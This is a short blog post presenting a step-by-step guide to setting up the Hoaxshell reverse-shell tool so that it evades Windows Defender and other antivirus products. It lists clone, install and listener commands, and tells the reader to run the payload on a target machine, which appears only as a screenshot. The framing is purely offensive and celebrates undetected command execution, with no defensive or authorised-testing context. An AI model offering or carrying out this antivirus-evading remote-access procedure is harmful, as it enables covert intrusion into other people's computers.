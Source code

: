 ```yaml
---
title: Fully Undetectable Reverse Shells
date: '2022-10-12'
tags: ['cybersecurity']
draft: false
summary: Create a reverse shell which is fully undetectable by Win Defender and other anti virus
images: []
layout: PostLayout
authors: ['default']
---
```


# Frustrated with AVs breaking your shells?

Not to worry anymore I got your back. I will show you how to create a reverse shell which is fully undetectable by Win Defender and other anti virus.

# Introducing [Hoaxshell](https://github.com/t3l3machus/hoaxshell) 🚗
![Hoaxshell](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-logo.png)

Hoaxshell is a reverse shell which as of writing this post is **completely undetectable** by Defender and other Anti Viruses.

# Setup 📐
```bash
git clone https://github.com/t3l3machus/hoaxshell
cd hoaxshell
pip3 install -r requirements.txt
```

# Usage 👊🏻
```bash
python3 hoaxshell.py -h
```
![Usage](/static/images/blogs/fully-undetectable-reverse-shells/usage.png)

You need to start by providing an IP to listen on

1. ### Find your IP address
```bash
sudo ifconfig
```

![IP](/static/images/blogs/fully-undetectable-reverse-shells/find-ip.png)

2. ### Start the listener
```bash
python hoaxshell.py -s <Your IP here>
```
![Listener](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-start.png)

3. ### Run the giant monstrous payload on the target machine

![Exploit](/static/images/blogs/fully-undetectable-reverse-shells/exploit.png)

<br />

# You now have a shell 🔥🎊

And the best part? You can now run any command without being detected.

![Shell](/static/images/blogs/fully-undetectable-reverse-shells/shell.png)

## Running commands

![Commands](/static/images/blogs/fully-undetectable-reverse-shells/running-commands.png)

## Anti Virus Fool Proof

![AV](/static/images/blogs/fully-undetectable-reverse-shells/anti-virus.png)

Both **Defender** and **Quick Heal** are fooled by the payload and do not detect it.

